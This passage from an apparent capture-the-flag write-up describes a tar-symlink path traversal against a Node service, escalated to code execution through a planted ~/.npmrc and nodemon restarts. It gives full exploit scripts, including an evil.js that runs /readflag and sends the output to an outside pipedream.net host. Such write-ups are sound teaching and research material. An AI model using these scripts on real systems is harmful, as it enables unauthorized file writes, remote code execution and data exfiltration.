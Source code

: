 ```bash
#!/bin/sh

rm n\\x

ln -s / n\\x # Create a link to the destination dir
tar cf poc.tar n\\x # Pack the link into the tar

echo "test" > n\\x/app/data/test
tar rf poc.tar n\\x n\\x/app/data/test

gzip -9 < poc.tar > poc.tar.gz
rm poc.tar
mv poc.tar.gz poc.tar
```

After completing this step, it is possible to list directories arbitrarily and write files arbitrarily. There is a `/readflag` in the root directory, indicating the need for command execution.

From the `Dockerfile`, we can see that our user is `node`, and there are hardly any places with write permissions. Also, except for `/app/data`, the `app` directory does not have write permission. Observing the startup parameters, `nodemon --exec npm start`, is somewhat odd. Research reveals that `nodemon` is a development tool that automatically restarts `node` when files are created or changed in the `/app` directory. Therefore, we can also write a configuration file in the user's folder, which will be loaded when `node` is restarted. We noticed that the service is started using `npm start`, so we can cause `RCE` by writing to the `NODE_OPTIONS` parameter in `~/.npmrc`.

```bash
echo "node-options='--require /home/node/evil.js'" > /home/node/.npmrc
```

Then, write a `.js` file to `/app/data`, which triggers `nodemon` to restart `node`, thereby causing `evil.js` to be executed. The purpose of `nodemon` is mainly for convenience during the competition. In practice, it is highly unlikely for someone to use `nodemon` to start production services. Nevertheless, we can still write files first and then wait patiently until the service restarts and the command is executed. In a `Docker` container with a configured restart strategy, you can also force a restart by crashing the service.

```bash
#!/bin/sh

# Generate Tar
mkdir /home/node
ln -s /home/node/ n\\x
tar cf exp.tar n\\x
echo "node-options='--require /home/node/evil.js'" > n\\x/.npmrc
echo "const execSync = require('child_process').execSync;const http = require('http');const output = execSync('/readflag', { encoding: 'utf-8' });http.get('http://ent9hso2vt0z.x.pipedream.net/?'+output);" > n\\x/evil.js
echo "dummy" > test.js
tar rf exp.tar n\\x n\\x/.npmrc n\\x/evil.js test.js

# Compress
gzip -9 < exp.tar > exp.tar.gz
mv exp.tar.gz exp.tar

# Clean Up
rm n\\x/.npmrc n\\x/evil.js test.js n\\x
rm -r /home/node
```

## References
```
https://www.zhihu.com/question/275611095/answer/1962679419
https://bytedance.feishu.cn/docs/doccntSbxsYPGEXw7wLP0TY73df
https://bytectf.feishu.cn/docs/doccnq7Z5hqRBMvrmpRQMAGEK4e#lLBgbe
```